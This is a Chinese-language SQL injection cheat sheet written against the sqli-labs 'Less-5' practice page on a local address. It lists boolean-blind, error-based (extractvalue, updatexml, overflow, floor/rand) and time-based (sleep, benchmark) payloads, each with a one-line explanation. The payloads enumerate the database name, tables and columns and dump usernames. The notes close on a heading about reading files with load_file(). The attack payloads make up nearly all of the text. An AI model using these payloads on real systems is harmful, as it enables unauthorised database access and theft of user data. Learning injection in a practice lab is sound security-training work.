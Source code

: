         if(ascii(substr(database(),1,1))>115,0,sleep(5))--+
        union select if(substring(current,1,1)=char(119),benchmark(5000000,encode(‘msg’,’by 5 seconds’)),null) from (select database() as current) as tb1;

**注入示例：**

    1. http://192.168.127.133/sqli/Less-5/index.php?id=1' and left(version(),1)=5--+    
    查看数据库版本是否为5，如果版本不对则报错
    2. http://192.168.127.133/sqli/Less-5/index.php?id=1' and length(database())=8--+
    查看数据库长度，如果不是则报错
    3. http://192.168.127.133/sqli/Less-5/index.php?id=1' and left(database(),1)>'s'--+
    猜测数据库名称的第一位
    4. http://192.168.127.133/sqli/Less-5/index.php?id=1' and left(database(),2)>'se'--+
    猜测数据库名称的第二位
    5. http://192.168.127.133/sqli/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+
    猜解某数据库的表名
    6. http://192.168.127.133/sqli/Less-5/?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^us[a-z]' limit 0,1)--+
    获取某表中的列
    7. http://192.168.127.133/sqli/Less-5/?id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+
    获取数据表的内容

**报错注入：**

    1. http://192.168.127.133/sqli/Less-5/?id=1' union select(exp(~(select * FROM(SELECT USER())a))),2,3--+
    利用double数值类型超出范围进行报错注入
    2. http://192.168.127.133/sqli/Less-5/?id=1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a--+
    3. http://192.168.127.133/sqli/Less-5/?id=1' union select(!(select * from(select user())x)-~0),2,3--+
    利用big int溢出进行报错注入
    4. http://192.168.127.133/sqli/Less-5/?id=1' and extractvalue(1,concat(0x7e,(select@@version),0x7e))--+
    利用xpath报错注入
    5. http://192.168.127.133/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select@@version),0x7e),1)--+
    6. http://192.168.127.133/sqli/Less-5/?id=1' union select 1,2,3 from(select NAME_CONST(version(),1),NAME_CONST(version(),1)) x--+
    利用重复数据注入

**延时注入：**

    1. http://192.168.127.133/sqli/Less-5/?id=1' and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+
    当错误的时候会有5秒时间延迟
    2. http://192.168.127.133/sqli/Less-5/?id=1' UNION SELECT(IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by5seconds')),null)),2,3 FROM (select database() as current) as tb1--+
    利用benchmark()进行延时注入

**导入导出相关操作：**

load_file()导出文件
